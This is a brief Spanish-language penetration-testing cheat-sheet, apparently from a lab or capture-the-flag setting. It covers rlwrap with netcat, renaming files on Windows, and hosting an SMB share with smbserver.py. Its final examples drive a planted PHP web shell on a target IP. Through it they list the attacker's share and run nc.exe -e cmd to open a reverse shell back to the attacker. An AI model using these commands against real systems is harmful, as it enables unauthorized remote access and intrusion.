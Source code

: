 
# rlwrap nc

Como añadir rlwrap a netcat para aplicar una shell interactiva.



## Cambiar el nombre a un Archivo en Windows
    
Para cambiar el nombre de archivo2.txt por archivo3.txt, se puede usar el comando REN (o RENAME) escribiendo:

    REN archivo2.txt archivo3.txt 
    

---

# Crear recurso compartido con Smbserver:


    smbserver.py smbFolder $(pwd) -smb2support
    
    
De esta forma crearemos un recurso compartido a nivel de red que al cual podremos acceder desde cualquier navegador y pudiendo ver y compartir
archivos.

Para acceder a este recurso compartido simplemente escribimos nuestra Ip en el navegador seguido del nombre que le hemos dado a la carpeta compartida,
en este caso ``smbFolder``.

``Ejemplos``:

Mostrar con dir los recursos compartidos:
  
    http://10.10.10.198:8080/upload/kamehameha.php?telepathy=dir \\10.10.14.75\smbFolder\
    

Ejecutar nc.exe a través del navegador, tendremos que especificar una dirección y un puerto de escucha:

    http://10.10.10.198:8080/upload/kamehameha.php?telepathy=\\10.10.14.75\smbFolder\nc.exe -e cmd [Ip Atacante] [Puerto en Escucha]
    
    

    
